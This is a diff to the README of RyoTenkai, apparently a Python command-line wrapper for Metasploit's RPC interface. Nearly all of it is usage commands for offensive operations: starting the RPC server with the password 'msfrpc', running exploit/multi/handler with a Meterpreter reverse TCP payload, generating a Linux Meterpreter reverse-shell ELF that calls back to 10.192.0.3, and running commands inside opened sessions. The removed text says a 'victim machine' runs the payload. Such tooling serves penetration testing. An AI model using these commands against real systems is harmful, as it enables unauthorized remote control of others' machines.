

Before and after one commit to MrSud0/RyoTenkai, a Markdown page: README.md, the part around the change printed below. Shown: that part at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -99,11 +99,67 @@ All commands share the following common arguments:
 - `--rpc-port`: The Metasploit RPC server port (default: `55552`).
 - `--rpc-ssl`: Use SSL for RPC connection (default: `False`).
 
-These arguments can be overridden via command line or specified in `config.ini`.
+These arguments can be overridden via the command line or specified in `config.ini`.
 
-### Example Use Case: Full Workflow
+### Available Commands
 
-This example demonstrates the complete workflow of starting the Metasploit RPC server, generating a payload, setting up a listener, polling jobs, confirming a session is open, and interacting with the session.
+1. **Start the Metasploit RPC Server**:
+
+    ```bash
+    python ryotenkai.py start_rpc --rpc-password msfrpc --rpc-port 55559
+    ```
+
+    This starts the Metasploit RPC server on port `55559` with the password `msfrpc`. Output is in JSON format.
+
+2. **Run a Metasploit Module**:
+
+    ```bash
+    python ryotenkai.py run_module <module> --option 'OPTION=VALUE' --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+    ```
+
+    Example:
+
+    ```bash
+    python ryotenkai.py run_module exploit/multi/handler --option 'PAYLOAD=linux/x64/meterpreter/reverse_tcp' --option 'LHOST=10.192.0.3' --option 'LPORT=12344'
+    ```
+
+    This runs the `multi/handler` module with the specified payload options, returning the result in JSON.
+
+3. **Poll Active Jobs**:
+
+    ```bash
+    python ryotenkai.py get_jobs --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+    ```
+
+    This retrieves the list of active jobs in JSON format.
+
+4. **Poll Active Sessions**:
+
+    ```bash
+    python ryotenkai.py get_sessions --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+    ```
+
+    This retrieves the list of active sessions in JSON format.
+
+5. **Run a Command in a Session**:
+
+    ```bash
+    python ryotenkai.py run_command 1 ifconfig --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+    ```
+
+    This runs the `ifconfig` command in session `1` and returns the result in JSON.
+
+6. **Generate a Payload**:
+
+    ```bash
+    python ryotenkai.py generate_payload elf linux/x64/meterpreter/reverse_tcp 10.192.0.3 12344 /tmp/payload.sh --msf-password msfrpc --rpc-port 55559 --rpc-server 10.192.0.3 --rpc-ssl
+    ```
+
+    This generates a Linux Meterpreter reverse TCP payload in ELF format, saving it to `/tmp/payload.sh`. Output is in JSON.
+
+### Example Workflow
+
+This example demonstrates the full workflow:
 
 #### 1. Start the Metasploit RPC Server
 
@@ -111,21 +167,12 @@ This example demonstrates the complete workflow of starting the Metasploit RPC s
 python ryotenkai.py start_rpc --rpc-password msfrpc --rpc-port 55559
 ```
 
-This command will start the Metasploit RPC server on port `55559` with the password `msfrpc`.
-
 #### 2. Generate a Payload
 
 ```bash
-python ryotenkai.py generate_payload elf linux/x64/meterpreter/reverse_tcp 10.192.0.3 12344 /tmp/payload.sh --msf-password msfrpc --rpc-port 55559 --rpc-server 10.192.0.3 --rpc-ssl
+python ryotenkai.py generate_payload elf linux/x64/meterpreter/reverse_tcp 10.192.0.3 12344 /tmp/payload.sh
 ```
 
-This command generates a Linux Meterpreter reverse TCP payload in ELF format with the following parameters:
-- LHOST: `10.192.0.3`
-- LPORT: `12344`
-- Output file: `/tmp/payload.sh`
-
-The victim machine will run this payload to initiate a reverse connection.
-
-#### 3. Run the Listener (Metasploit Handler)
+#### 3. Run the Listener
 
 ```bash
````
Also changed, not shown: other parts of README.md (+41 -29 lines).
